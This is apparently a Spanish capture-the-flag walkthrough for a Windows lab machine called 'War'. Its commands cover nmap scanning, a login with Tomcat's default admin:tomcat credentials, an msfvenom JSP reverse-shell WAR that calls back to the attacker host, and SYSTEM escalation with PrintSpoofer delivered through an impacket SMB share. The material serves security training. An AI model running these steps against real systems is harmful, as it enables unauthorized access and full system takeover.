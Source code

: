 ```yaml
---
description: '🔍 Dificultad: Fácil'
---
```


# War

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.74
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1135).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.74 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1136).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **135, 139, 445, 5040, 8080** y varios en el rango **49664-49670** están abiertos. Estos pertenecen a los servicios de **Microsoft RPC, NetBIOS-SSN, Microsoft-DS, HTTP-Proxy** y otros puertos desconocidos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p8080,135,139,445,5040 -v 192.168.1.74
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1138).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 8080 y encontramos un **Tomcat**.

<figure><img src="../../.gitbook/assets/image (1137).png" alt=""><figcaption></figcaption></figure>



Nos logueamos con las credenciales por defecto de Tomcat.&#x20;

* admin:tomcat

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html" %}

<figure><img src="../../.gitbook/assets/image (1139).png" alt=""><figcaption></figcaption></figure>

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.65 LPORT=443 -f war -o reverse2.war
```

Lo subimos y nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (1140).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (1141).png" alt=""><figcaption></figcaption></figure>

La cuenta **NT AUTHORITY\Local Service** posee el privilegio **SeImpersonatePrivilege**, lo que le permite suplantar la identidad de otros procesos en el sistema. Este privilegio es potencialmente explotable en ataques como **Juicy Potato** o **PrintSpoofer**, que permiten la escalación de privilegios en entornos Windows mal configurados. Se recomienda evaluar los riesgos y aplicar las medidas de seguridad adecuadas para mitigar posibles vulnerabilidades.

<figure><img src="../../.gitbook/assets/image (1142).png" alt=""><figcaption></figcaption></figure>

{% @github-files/github-code-block url="https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0" %}

Transfiero el ejecutable **PrintSpoofer64.exe** al sistema objetivo

```bash
mv /home/beafn28/Descargas/PrintSpoofer64.exe .
impacket-smbserver a . -smb2support
```

Lo subimos.

```bash
cd %TEMP%
copy \\192.168.1.65\a\PrintSpoofer64.exe PrintSpoofer64.exe
```

Ejecutamos. Ya somos **root**.

```
.\PrintSpoofer64.exe -i -c cmd
```

<figure><img src="../../.gitbook/assets/image (1144).png" alt=""><figcaption></figcaption></figure>
